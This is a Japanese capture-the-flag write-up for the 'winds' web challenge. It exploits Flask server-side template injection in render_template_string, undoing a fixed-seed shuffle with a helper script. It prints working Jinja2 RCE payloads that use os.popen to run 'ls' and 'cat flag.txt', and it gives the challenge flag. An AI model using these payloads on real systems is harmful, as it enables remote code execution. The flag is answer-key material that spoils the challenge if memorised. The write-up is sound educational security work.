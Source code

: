 # winds:web:100pts
Challenge: [https://winds.web.actf.co/](https://winds.web.actf.co/)  

[app.py](app.py)  

# Solution
URLとソースが渡される。  
URLにアクセスし、文字列の入力後に`Shout your message...`ボタンを押すと文字列がシャッフルされ表示される。  
試しに`Satoki`とすると、何度試しても`ktaSio`となる。  
![site.png](site/site.png)  
ソースを見ると主要部分は以下の通りであった。  
```python
~~~
@app.post('/shout')
def shout():
    text = request.form.get('text', '')
    if not text:
        return redirect('/?error=No message provided...')

    random.seed(0)
    jumbled = list(text)
    random.shuffle(jumbled)
    jumbled = ''.join(jumbled)

    return render_template_string('''
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;">{{ error }}</div>
            <div>
                Your voice echoes back: %s
            </div>
        </div>
    ''' % jumbled, error=request.args.get('error', ''))
~~~
```
`random.seed(0)`でシードが固定され、入力がシャッフルされているが必ず決まった出力になる。  
さらに`render_template_string`であるので、FlaskのSSTIだ。  
`{{lipsum.__globals__['os'].popen('ls').read()}}`のようにするとRCEできることが知られているので、シャッフル後に有効なペイロードになるような文字列を送信すればよい。  
以下のrandom_ssti.pyで雑に生成する。  
```python
import sys
import random

payload = sys.argv[1]
rand_payload = list(" " * len(payload))

for i in range(len(payload)):
    tmp = list(" " * len(payload))
    tmp[i] = "\x00"
    random.seed(0)
    random.shuffle(tmp)
    rand_payload[i] = payload[tmp.index("\x00")]

print("".join(rand_payload))
```
`ls`するペイロードを生成する。  
```bash
$ python random_ssti.py "{{lipsum.__globals__['os'].popen('ls').read()}}"
i{)'son.lo_am'u_(p'rpl)s}e}s_].ad{(ol.'epbs_[lg
```
![ls.png](site/ls.png)  
`flag.txt`があるようなので、`cat`するペイロードを生成する。  
```bash
$ python random_ssti.py "{{lipsum.__globals__['os'].popen('cat flag.txt').read()}}"
aldo(mf.ga]p{t_eapa)snt_}.(ol''reoti'x'sbl{._l[c)s. pg}u_
```
![flag.png](site/flag.png)  
flagが得られた。  

## actf{2cb542c944f737b85c6bb9183b7f2ea8}